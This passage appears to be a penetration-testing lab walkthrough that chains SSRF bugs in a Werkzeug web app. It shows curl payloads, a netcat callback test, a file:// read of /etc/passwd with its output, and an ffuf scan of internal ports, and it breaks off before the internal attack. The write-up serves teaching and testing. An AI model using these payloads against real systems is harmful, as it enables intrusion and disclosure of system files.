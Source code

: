 In this example, we will be exploiting an internet-facing web application and work to get remote code execution on an internal host by chaining multiple SSRF vulnerabilities. The attack flow shall be as follows:
```
PENTESTER -> SSRF on Internet-facing App -> SSRF on Internal Web Server -> RCE on Local Web App.
```
First we issue a cURL request to the target server using the parameters `-i` to show the protocol response headers, `-s` to use the silent mode, and `-L` to follow any redirects.
```bash
curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Testing for SSRF
Then we confirm if the `q` parameter is vulnerable to SSRF by starting up a Netcat listener, as follows:
```bash
nc -nvlp 4444
```
```bash
curl -i -s "http://<TARGET IP>/load?q=http://<OUR IP>:4444"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```
## Confirming SSRF
Checking into our Netcat listener, we can see that the target application made a request, confirming a SSRF vulnerability.
```bash
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <OUR IP>:4444
User-Agent: Python-urllib/3.8
Connection: close
```
Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
## Retrieve local file using FTP schema
We can test this functionality by requesting for the `/etc/passwd` file.
```bash
curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd" 

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 926
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:27:17 GMT

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[TRIM]...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...[TRIM]...
```
## Port Scanning for Internal Apps using Ffuf
Next we will perform a port scan to look for any internal applications that we can exploit.

1. But first, we should generate a port wordlist using the following:
```bash
for port in {1..65535}; do echo $port >> ports.txt; done
```
2. We will then use Ffuf to fuzz for any open ports.
```bash
ffuf -w ports.txt -u "http://<TARGET IP>/load?q=http://127.0.0.1:FUZZ" -fs 30

...[TRIM]...
80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
3. Confirm that port 5000 is working.
```bash
curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 64
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:47:16 GMT

<html><body><h1>Hey!</h1><a>Some internal app!</a></body></html>
```
## Attacking Internal Web App
Now that we confirmed the internal app is responding, we can proceed with attacking `ubuntu-web.lalaguna.local` & `internal.app.local` to try and achieve